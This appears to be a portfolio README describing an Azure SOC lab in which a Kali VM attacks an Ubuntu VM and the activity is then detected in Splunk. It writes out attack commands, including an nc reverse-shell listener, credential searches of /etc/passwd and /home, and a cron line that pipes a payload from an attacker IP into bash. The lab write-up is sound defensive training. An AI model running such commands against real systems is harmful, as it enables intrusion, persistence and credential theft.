# Azure SOC Project – Attack Simulation & Splunk Detection Lab

## Overview

Designed and implemented a **cloud-based SOC lab in Microsoft Azure** to simulate real-world attacker behavior and defensive monitoring using **Linux telemetry, audit logs, and Splunk SIEM**.

The project focused on:

- Simulating initial compromise activity
- Establishing command-and-control communication
- Executing attacker enumeration commands
- Collecting and analyzing telemetry in Splunk
- Investigating suspicious process activity and cron persistence

---

# Lab Architecture

## Azure Infrastructure

Configured two separate Azure virtual machines:

| Component            | Purpose                            |
| -------------------- | ---------------------------------- |
| `Azure-VM-Testing`   | Ubuntu 22.04 Victim Machine        |
| `Azure-VM-Pentester` | Kali Linux Attacker Machine        |
| `Splunk Enterprise`  | SIEM Platform (Vultr Cloud Server) |
| `Sysmon for Linux`   | Endpoint Telemetry                 |
| `Auditd`             | Linux Auditing                     |






---

## Virtual Networks

Created isolated Azure virtual networks for attack simulation.



---

## Network Configuration

Configured Azure NSG inbound rules for:

- SSH access (22)
- Payload hosting server (8080)
- Reverse shell listener (4444)



---

# Threat Simulation (Red Teaming)

## Payload Delivery

Hosted a malicious payload on the attacker machine using a Python HTTP server.

```bash
python3 -m http.server 8080
```

Victim downloaded the payload using curl.





---

## Reverse Shell Establishment

Established a reverse shell connection from the victim VM back to the Kali attacker machine.

```bash
nc -lvnp 4444
```



---

## Post-Exploitation Enumeration

Executed attacker reconnaissance commands on the compromised Linux host:

```bash
whoami
hostname
pwd
ip a
```



Additional enumeration and privilege checks:

```bash
uname -a
id
cat /etc/passwd
```



Performed further discovery and credential-related searches:

```bash
grep -Ri password /home
```



---

# SIEM Integration (Splunk)

## Telemetry Collection

Forwarded Linux system logs and audit logs into Splunk for centralized monitoring and analysis.

Sources included:

- Sysmon for Linux
- auditd
- syslog
- cron logs

---

# Detection & Investigation

## Process Execution Monitoring

Used Splunk SPL queries to detect suspicious process execution activity from the compromised host.

Tracked:

- curl
- wget
- bash
- sudo
- reconnaissance commands





---

## Cron Persistence Detection

Detected suspicious cron execution used to automate payload retrieval.

```bash
curl http://51.x.x.x:8080/payload.sh | bash
```



---

## Linux Audit Log Analysis

Analyzed detailed auditd telemetry showing:

- Executed commands
- Working directories
- Process arguments
- User context
- Parent-child process relationships



---

## Credential & File Access Investigation

Monitored attempts to search for password-related files and sensitive data.



---

# Skills Demonstrated

✓ Microsoft Azure infrastructure deployment

✓ Linux administration & hardening

✓ Threat simulation & attacker emulation

✓ Reverse shell operations

✓ Network security group configuration

✓ SIEM log ingestion & analysis (Splunk)

✓ Linux audit logging (auditd)

✓ Process telemetry analysis

✓ Detection engineering

✓ Incident investigation & threat hunting

✓ Command-line forensics

✓ Security operations workflow

---

# Key Outcomes

✓ Built a fully functional cloud SOC lab in Azure

✓ Simulated realistic attacker techniques and post-exploitation activity

✓ Successfully established reverse shell communication between cloud hosts

✓ Collected and analyzed attacker telemetry within Splunk SIEM

✓ Investigated malicious commands, persistence mechanisms, and credential discovery attempts

✓ Demonstrated practical blue-team detection and investigation workflows

---

# Preview

Built a cloud-based SOC lab in Microsoft Azure using Ubuntu and Kali Linux virtual machines.

Simulated real-world attacker behavior including payload delivery, reverse shells, enumeration, and persistence techniques.

Integrated Linux telemetry and audit logs into Splunk SIEM to investigate malicious process activity, cron persistence, and credential discovery attempts through centralized log analysis and threat hunting workflows.
